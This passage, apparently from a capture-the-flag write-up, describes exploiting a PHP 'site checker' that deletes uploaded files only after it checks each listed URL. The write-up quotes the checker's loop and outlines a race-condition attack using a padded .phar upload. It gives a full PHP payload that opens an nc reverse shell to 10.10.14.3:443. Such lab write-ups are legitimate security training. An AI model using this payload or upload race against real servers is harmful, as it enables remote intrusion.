 And it checks the sites one by one and delete the file after checking

```bash
foreach($websites as $site){
		$site=trim($site);
		if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
			$check=isitup($site);
			if($check){
				echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
			}else{
				echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
			}	
		}else{
			echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
		}
	}
	
  # Delete the uploaded file.
	@unlink($final_path);
```

**Plan of attack:**

Create a .phar file with a huge number of sites to give us enough time to browse to our uploaded file. And we include some php code in the end of the file for remote code execution. Then, we upload the file. Finally, while the checker.php is busy checking the sites, we browse to the uploaded file to execute the code. 

```bash
https://behavior.example.com/
.......
http://bed.example.com/beef
<?php
$descriptorspec = array(
0 => array("pipe", "r"), // stdin is a pipe that the child will read from
1 => array("pipe", "w"), // stdout is a pipe that the child will write to
2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open("sh", $descriptorspec, $pipes);
if (is_resource($process)) {
// $pipes now looks like this:
// 0 => writeable handle connected to child stdin
// 1 => readable handle connected to child stdout
// Any error output will be appended to /tmp/error-output.txt
fwrite($pipes[0], "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f");
fclose($pipes[0]);
while (!feof($pipes[1])) {
echo fgets($pipes[1], 1024);
}
fclose($pipes[1]);
// It is important that you close any pipes before calling
// proc_close in order to avoid a deadlock
$return_value = proc_close($process);

echo "command returned $return_value\n";
}
?>
```
